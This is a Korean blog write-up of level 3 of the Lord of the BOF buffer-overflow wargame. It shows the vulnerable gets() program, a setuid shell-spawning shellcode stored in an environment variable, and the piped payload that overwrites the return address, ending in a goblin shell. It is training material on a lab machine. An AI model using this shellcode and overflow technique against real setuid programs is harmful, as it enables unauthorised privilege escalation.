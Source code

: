 ```yaml
---
title: LOB 3번 Write-up
date: 2017-9-3 15:42:00
categories: LOB
tags: LOB, cobolt, goblin
---
```


## LOB 3번

이번 레벨은 cobolt이다. 비밀번호는 hacking exposed이다.

    [cobolt@localhost cobolt]$ ls -l
    total 16
    -rwsr-sr-x    1 goblin   goblin      11824 Feb 26  2010 goblin
    -rw-r--r--    1 root     root          193 Mar 29  2010 goblin.c
    [cobolt@localhost cobolt]$ cat goblin.c
    /*
            The Lord of the BOF : The Fellowship of the BOF
            - goblin
            - small buffer + stdin
    */
    
    int main()
    {
        char buffer[16];
        gets(buffer);
        printf("%s\n", buffer);
    }

참고를 위해 LOB 2번 문제인 cobolt의 소스도 아래에 올려두었다.

    [gremlin@localhost gremlin]$ cat cobolt.c
    int main(int argc, char *argv[])
    {
        char buffer[16];
        if(argc < 2){
            printf("argv error\n");
            exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);
    }

### 입력방식의 차이

두 프로그램은 문자열을 받아오는 방식에 있어서 서로 다르다. 이전의 문제에서는 `strcpy`를 통해 실행과 동시에 전달받은 문자열을 복사한 후 저장하였으나, 이번 문제에서는 프로그램 실행 후 `gets()`를 통해 문자열을 받아오는 것이다. 아래의 경우를 보며 확인해보자.

    [cobolt@localhost cobolt]$ ./goblin `python -c 'print"a"*21'`
    hello
    hello

argc값을 받아오지 않기 때문에 위처럼 python으로 전달한 값은 무시되고 `gets()`로 입력한 값인 'hello'만 받아온다. 그렇다고 쉘코드를 직접 입력해줘야하는 것은 아니다. 아래와 같이 FTZ 3번 문제에서 배운 대로 세미콜론을 사용하고, 괄호와 파이프를 적절히 조합하면 값을 전달할 수 있다.

    (python -c 'print "A"*21';cat)|./goblin

python으로 값을 출력한 다음, 표준 입력을 표준 출력으로 바꿔주는 역할을 하는 `cat`명령어로 값을 넘겨주도록 했다. 세미콜론은 한줄에 명령어를 여러개 입력할때 사용한다는 점에서 파이프와 비슷하지만 파이프의 경우 앞에서 나온 결과값을 뒤의 명령에서 사용한다는 점이 대조된다. 그리고 나서 앞의 결과를 파이프가 goblin에게 넘겨준다.

### 쉘코드
    
    [cobolt@localhost cobolt]$ export shell = `python -c 'print "\x31\xc0\xb0\x31\xc                                      d\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x6                                      8\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"'`
    [cobolt@localhost cobolt]$ vi addr.c
    #include<stdio.h>
    int main(){
            printf("%#p \n", getenv("shell"));
    return 0;
    }
    [cobolt@localhost cobolt]$ gcc -o addr addr.c
    [cobolt@localhost cobolt]$ ./addr
    0xbfffff1c

참고로 메모리구조는 이전과 같다.

buffer(16byte)	|	SFP(4byte)	|	RET(4byte)

    [cobolt@localhost cobolt]$ ./addr
    0xbffffb34
    [cobolt@localhost cobolt]$ (python -c 'print "A"*16 + "\x90"*4 + "\x34\xfb\xff\xbf"';cat)|./goblin
    AAAAAAAAAAAAAAAA4ûÿ¿
    id
    uid=503(goblin) gid=502(cobolt) egid=503(goblin) groups=502(cobolt)
    my-pass
    euid = 503
    hackers proof

문제 소스는 비슷한데, 원리를 찾아보고 하니 생각보다 어려워진다.